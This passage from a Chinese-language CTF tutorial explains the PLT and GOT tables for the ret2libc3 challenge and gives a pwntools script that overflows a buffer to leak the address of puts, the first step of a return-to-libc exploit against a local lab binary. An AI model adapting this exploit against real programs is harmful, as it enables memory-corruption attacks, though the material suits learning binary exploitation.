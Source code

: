 为什么要检查`plt`表，因为`plt`表中记录了程序所有需要调用的外部函数，同时能供我们调用这些函数，由上文分析可知，一旦我们知道了某个函数的地址，又知道其相对于`system()`的偏移值，我们就能直接调用`system()`函数，那么，程序中存储外部函数的位置，也就是`got`表

4. 检查`got`表

> <img src="./img/89.png">

图中可以看出，`printf()`、`gets()`、`puts()`和`__libc_start_main`因为已经被执行，因此能直接显示其真实地址。在远程端口中，虽然我们无法使用`pwndbg`查看`got`表，但是我们能利用`puts()`函数，将`got`表的内容打印出来

5. `got`泄露

先编写一个泄露`puts()`地址的脚本，在`pwntools`中，为我们提供了`plt`和`got`方法，能快捷地输出其地址，因为没有开启`PIE`保护，地址不会改变

```py
from pwn import *

elf = ELF('./ret2libc3')
sh = process('./ret2libc3')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload = flat([b'a' * 112, puts_plt, b'bbbb', puts_got])
# 指定接收位置在原程序输出之后
sh.sendlineafter('Can you find it !?', payload)
# u32()用于解码字节数据，与p32()相对
# [0: 4]截断需要的内容，即前四位是puts的地址，后面的数据是无效数据
# hex()用于将10进制转换为16进制
print(hex(u32(sh.recv()[0: 4])))
```

执行脚本
